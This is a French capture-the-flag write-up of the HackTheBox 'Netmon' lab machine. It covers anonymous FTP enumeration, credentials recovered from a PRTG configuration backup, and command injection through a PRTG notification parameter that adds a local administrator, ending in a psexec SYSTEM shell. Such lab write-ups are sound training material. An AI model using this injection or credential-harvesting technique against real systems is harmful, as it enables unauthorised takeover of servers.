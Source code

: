 ```yaml
---
title: "HackTheBox - Netmon"
description: "fileoutput.jpg"
tags: ["Dans cet article je vous présente comment être administrateur dans la boîte Netmon, c'était une boîte très amusante mais en même temps très facile. Le FTP n'était pas chroot dans le système ce qui nous permettait de lire des fichiers plus ou moins sensible, il y'avait un service PRTG Network Monitor qui tournait ce qui nous permettait d'être administrateur dans le système"]
---
```


![Flower](../fileoutput.jpg)

Informations
----
    Ip :  10.10.10.152      Created by : mrb3n
    Level : Easy    Base Points : 20
    
Résumé : <br />

Le système Conceal, disponible sur la platform [HackTheBox](https://www.hackthebox.eu/), fut très intéressant et amusante. La boîte était relativement simple. De plus, j’ai appris beaucoup de chose tout au long de l’exploitation des failles de ce système. <br />

- Le protocole `FTP` est ouvert, et il était possible de se connecter en `anonymous`.
- Le service FTP n'est pas `chroot` ce qui nous permettait de lire des fichiers dans le système.
- Il y'a le service `PRTG Network Monitor` d'ouvert dans le système et il y'avait un fichier `backup` assez sensible pour la récupération du mot de passe de la session.
- Nous pouvons exécuter des commandes grâce au système `PRTG Network Monitor` et ensuite faire notre reverse shell pour être administrateur.

Nmap
----
    Starting Nmap 7.01 ( https://nmap.org ) at 2019-06-29 17:21 CEST
    Nmap scan report for 10.10.10.152
    Host is up (0.040s latency).
    PORT    STATE SERVICE      VERSION
    21/tcp  open  ftp          Microsoft ftpd
    | ftp-anon: Anonymous FTP login allowed (FTP code 230)
    | 02-03-19  12:18AM                 1024 .rnd
    | 02-25-19  10:15PM       <DIR>          inetpub
    | 07-16-16  09:18AM       <DIR>          PerfLogs
    | 02-25-19  10:56PM       <DIR>          Program Files
    | 02-03-19  12:28AM       <DIR>          Program Files (x86)
    | 02-03-19  08:08AM       <DIR>          Users
    |_06-29-19  11:07AM       <DIR>          Windows
    80/tcp  open  http         Indy httpd 18.1.37.13946 (Paessler PRTG bandwidth monitor)
    | http-title: Welcome | PRTG Network Monitor (NETMON)
    |_Requested resource was /index.htm
    139/tcp open  netbios-ssn  Microsoft Windows 98 netbios-ssn
    445/tcp open  microsoft-ds Microsoft Windows Server 2008 R2 microsoft-ds
    Service Info: OSs: Windows, Windows 98, Windows Server 2008 R2; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_98, cpe:/o:microsoft:windows_server_2008:r2

    Host script results:
    | smb-security-mode: 
    |   account_used: guest
    |   authentication_level: user
    |   challenge_response: supported
    |_  message_signing: disabled (dangerous, but default)
    |_smbv2-enabled: Server supports SMBv2 protocol

    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done: 1 IP address (1 host up) scanned in 20.61 seconds

Il y'a différent services d'ouvert notamment le service `FTP` ou nous avons les permissions pour se connecter en tant que `anonymous`.

FTP
----
    root@Seyptoo:~/htb/box/Netmon# ftp 10.10.10.152
    Connected to 10.10.10.152.
    220 Microsoft FTP Service
    Name (10.10.10.152:root): anonymous
    220 Microsoft FTP Service
    Name (10.10.10.152:root): anonymous
    331 Anonymous access allowed, send identity (e-mail name) as password.
    Password:
    230 User logged in.
    Remote system type is Windows_NT.
    ftp> ls
    200 PORT command successful.
    125 Data connection already open; Transfer starting.
    02-03-19  12:18AM                 1024 .rnd
    02-25-19  10:15PM       <DIR>          inetpub
    07-16-16  09:18AM       <DIR>          PerfLogs
    02-25-19  10:56PM       <DIR>          Program Files
    02-03-19  12:28AM       <DIR>          Program Files (x86)
    02-03-19  08:08AM       <DIR>          Users
    06-29-19  11:07AM       <DIR>          Windows
    226 Transfer complete.
    ftp> cd Users
    250 CWD command successful.
    ftp> cd Public
    250 CWD command successful.
    ftp> dir
    200 PORT command successful.
    125 Data connection already open; Transfer starting.
    02-03-19  08:05AM       <DIR>          Documents
    07-16-16  09:18AM       <DIR>          Downloads
    02-03-19  12:35AM                   33 user.txt
    07-16-16  09:18AM       <DIR>          Videos
    226 Transfer complete.
    ftp> mget user.txt
    mget user.txt? y
    200 PORT command successful.
    125 Data connection already open; Transfer starting.
    WARNING! 1 bare linefeeds received in ASCII mode
    File may not have transferred correctly.
    226 Transfer complete.
    33 bytes received in 0.03 secs (0.9522 kB/s)
    ftp> exit
    root@Seyptoo:~/htb/box/Netmon# wc -c user.txt 
    33 user.txt

Le fichier `user.txt` est disponible et nous pouvons le transférer vers notre machine physique.

PRTG ADMIN
----

D'après le scan et également d'après mes recherches le service tourne dans le dossier `ProgramData`.

    ftp> cd ProgramData
    250 CWD command successful.
    ftp> dir
    200 PORT command successful.
    125 Data connection already open; Transfer starting.
    02-03-19  12:15AM       <DIR>          Licenses
    11-20-16  10:36PM       <DIR>          Microsoft
    02-03-19  12:18AM       <DIR>          Paessler
    02-03-19  08:05AM       <DIR>          regid.1991-06.com.microsoft
    07-16-16  09:18AM       <DIR>          SoftwareDistribution
    02-03-19  12:15AM       <DIR>          TEMP
    11-20-16  10:19PM       <DIR>          USOPrivate
    11-20-16  10:19PM       <DIR>          USOShared
    02-25-19  10:56PM       <DIR>          VMware
    226 Transfer complete.
    ftp> cd Paessler
    250 CWD command successful.
    ftp> dir
    200 PORT command successful.
    125 Data connection already open; Transfer starting.
    06-29-19  11:11AM       <DIR>          PRTG Network Monitor
    226 Transfer complete.
    ftp> cd "PRTG Network Monitor"
    250 CWD command successful.
    ftp> dir
    200 PORT command successful.
    125 Data connection already open; Transfer starting.
    02-03-19  12:40AM       <DIR>          Configuration Auto-Backups
    06-29-19  10:29AM       <DIR>          Log Database
    02-03-19  12:18AM       <DIR>          Logs (Debug)
    02-03-19  12:18AM       <DIR>          Logs (Sensors)
    02-03-19  12:18AM       <DIR>          Logs (System)
    06-29-19  10:29AM       <DIR>          Logs (Web Server)
    06-29-19  10:34AM       <DIR>          Monitoring Database
    02-25-19  10:54PM              1189697 PRTG Configuration.dat
    06-29-19  10:58AM              1292772 PRTG Configuration.old
    07-14-18  03:13AM              1153755 PRTG Configuration.old.bak
    06-29-19  11:11AM              1548431 PRTG Graph Data Cache.dat
    02-25-19  11:00PM       <DIR>          Report PDFs
    02-03-19  12:18AM       <DIR>          System Information Database
    02-03-19  12:40AM       <DIR>          Ticket Database
    02-03-19  12:18AM       <DIR>          ToDo Database
    226 Transfer complete.

Nous avons des fichiers plutôt interéssant notamment le fichier `backup PRTG Configuration.old.bak`, nous allons transférer ce fichier vers notre machique physique pour énumérer ce fichier. Quand nous défilons un peu, on peut constater des informations d'identification dans le système `PRTG Network Monitor`.

    <dbpassword>
        <!-- User: prtgadmin -->
        PrTg@dmin2018
    </dbpassword>

Donc si vous tentez d'accéder au service, logiquement vous aurez pas accès car le mot de passe correspond celui là de 2018, et comme nous avons changer de génération c'est 2019. (J'ai mis pas mal de temps à comprendre).

HTTP
----
Donc nous avons les informations d'identification nous pouvons nous connecter dans le service en question et d'éxecuter des commandes.

> Username : prtgadmin <br />
> Password : PrTg@dmin2019

![Flower](https://image.noelshack.com/fichiers/2019/26/6/1561823414-1551726438018.png)

Une fois connecté au service nous allons allez dans `Setup` et ensuite notifications. Créé une nouvelle notification et ensuite d'aller dans `Execute Program` pour justement exécuter des commandes. Je vais créé un utilisateur qui serais dans le groupe `administrators`.

`test.txt;net user seyptoo 123 /add;net localgroup administrators seyptoo /add`

Vous devez mettre les informations dans la section `Parameter` et de mettre les informations pour créé notre utilisateur comme administrateur.

![Flower](https://image.noelshack.com/fichiers/2019/26/6/1561826366-1551726674533.png)

![Flower](https://image.noelshack.com/fichiers/2019/26/6/1561823969-1551726729729.png)

Vous enregistrez la notification et ensuite vous cliquez sur la petite cloche et normalement votre commande a été exécuter avec succès.

PrivEsc
----

Une fois toute les modifications ont été effectué vous vous connectez avec `psexec.py` dans le système pour être administrateur. Vous pouvez également utilisé `smbclient`.

    root@Seyptoo:~/htb/box/Netmon# 'seyptoo:123@10.10.10.152'
    Impacket v0.9.19-dev - Copyright 2018 SecureAuth Corporation

    [*] Requesting shares on 10.10.10.152.....
    [*] Found writable share ADMIN$
    [*] Uploading file tbwyLJgn.exe
    [*] Opening SVCManager on 10.10.10.152.....
    [*] Creating service PdOp on 10.10.10.152.....
    [*] Starting service PdOp.....
    [!] Press help for extra shell commands
    Microsoft Windows [Version 10.0.14393]
    (c) 2016 Microsoft Corporation. All rights reserved.

    C:\Windows\system32>whoami
    nt authority\system

CONCLUSION
----
Voilà, nous arrivons enfin au bout de cet article qui, je l’espère, vous aura plus. Une boîte vraiment intéréssante et concrètement assez originale, une boîte relativement simple.
